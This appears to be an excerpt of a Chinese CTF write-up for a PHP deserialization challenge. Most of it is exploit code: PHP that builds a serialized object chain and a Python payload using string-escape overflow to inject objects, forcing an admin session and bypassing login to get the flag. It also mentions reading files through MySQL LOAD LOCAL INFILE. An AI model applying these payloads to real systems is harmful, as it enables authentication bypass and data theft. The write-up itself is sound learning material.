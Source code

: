 ```php
$i = new Info;
$dc = new dbCtrl;

$dc->name='admin';
$dc->password='p';
$i->CtrlCase = $dc;
$u->nickname = $i;
$u->age = 'SELECT id, 0x3833383738633931313731333338393032653066653066623937613863343761 FROM user WHERE username=?';
$uh->sql = $u;

$exp = serialize($uh);

$ii = new Info;
$ii->age = '1*********************************************************************************************************";s:8:"nickname";'.$exp.'s:8:"CtrlCase";N;}';

echo $ii->age;
```

请求后可设置$_SESSION['token']为admin，拿到Cookie后切到login.php登录admin，密码随意，登录逻辑会直接设置login=1，然后跳转到update.php就可以拿flag了

EXP试了下完全没问题，不知道为啥注入对象的析构函数没有被调用（玄学?）

P.s. 既然能控制mysql连接了，利用load local infile直接读flag.php应该也可行，具体看题目环境配置了

**2020/2/25更新：今天又看了一下，发现是因为PHP未处理异常会导致脚本直接终止而不调用析构函数。因为后面这一句类型转换报错：**

```php
$updateAction = new UpdateHelper(
    $_SESSION['id'],
    $Info,
    "update user SET age=$age,nickname=$nickname where id=" . $_SESSION['id']
);
```

**Catchable fatal error:  Object of class UpdateHelper could not be converted to string in lib.php on line 155**

**阿P，真有你的啊。我寻思你好歹带个GC，退出时不该把收尾工作做了吗**

**所以这题不要把对象注入到age或nickname：**

```python
import requests

data = {
    'age': '1*********************************************************************************************************";s:8:"nickname";O:12:"UpdateHelper":3:{s:2:"id";N;s:7:"newinfo";N;s:3:"sql";O:4:"User":3:{s:2:"id";N;s:3:"age";s:104:"SELECT id, 0x3833383738633931313731333338393032653066653066623937613863343761 FROM user WHERE username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";O:6:"dbCtrl":8:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:7:"noob123";s:6:"dbpass";s:7:"noob123";s:8:"database";s:7:"noob123";s:4:"name";s:5:"admin";s:8:"password";s:1:"p";s:6:"mysqli";N;s:5:"token";N;}}}}s:8:"CtrlCase";N;}',
    'nickname': '',
}

data={
    'nickname': '1*****************************************************************************************************unionload";s:8:"CtrlCase";O:12:"UpdateHelper":3:{s:2:"id";N;s:7:"newinfo";N;s:3:"sql";O:4:"User":3:{s:2:"id";N;s:3:"age";s:104:"SELECT id, 0x3833383738633931313731333338393032653066653066623937613863343761 FROM user WHERE username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";O:6:"dbCtrl":8:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:7:"noob123";s:6:"dbpass";s:7:"noob123";s:8:"database";s:7:"noob123";s:4:"name";s:5:"admin";s:8:"password";s:1:"p";s:6:"mysqli";N;s:5:"token";N;}}}}}',
    'age': '',
}
```